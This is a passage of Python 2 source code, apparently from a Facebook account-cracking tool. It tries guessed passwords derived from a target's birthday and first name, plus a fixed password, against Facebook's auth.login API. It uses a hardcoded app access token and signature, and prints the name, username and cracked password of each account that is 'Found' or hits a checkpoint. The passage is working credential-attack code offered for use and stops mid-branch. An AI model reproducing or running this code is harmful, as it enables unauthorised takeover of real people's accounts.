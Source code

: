 							menu_hack()
						else:
							if 'www.facebook.com' in y["error_msg"]:
								print "\033[1;91m[+] \033[1;92mFound"
								print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
								print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
								print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
								print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
								raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
								menu_hack()
							else:
								lahir = a['birthday']
								pz4 = lahir.replace('/', '')
								data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								y = json.load(data)
								if 'access_token' in y:
									print "\033[1;91m[+] \033[1;92mFound"
									print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
									print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
									print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
									raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
									menu_hack()
								else:
									if 'www.facebook.com' in y["error_msg"]:
										print "\033[1;91m[+] \033[1;92mFound"
										print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
										print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
										print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
										print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
										raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
										menu_hack()
									else:
										lahirs = a['birthday']
										gaz = lahirs.replace('/', '')
										pz5 = a['first_name']+gaz
										data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										y = json.load(data)
										if 'access_token' in y:
											print "\033[1;91m[+] \033[1;92mFound"
											print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
											print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
											print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
											raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
											menu_hack()
										else:
											if 'www.facebook.com' in y["error_msg"]:
												print "\033[1;91m[+] \033[1;92mFound"
												print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
												print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
												print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
												print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
												raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
												menu_hack()
											else:
												pz6 = "oiboy123"
												data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												y = json.load(data)
												if 'access_token' in y: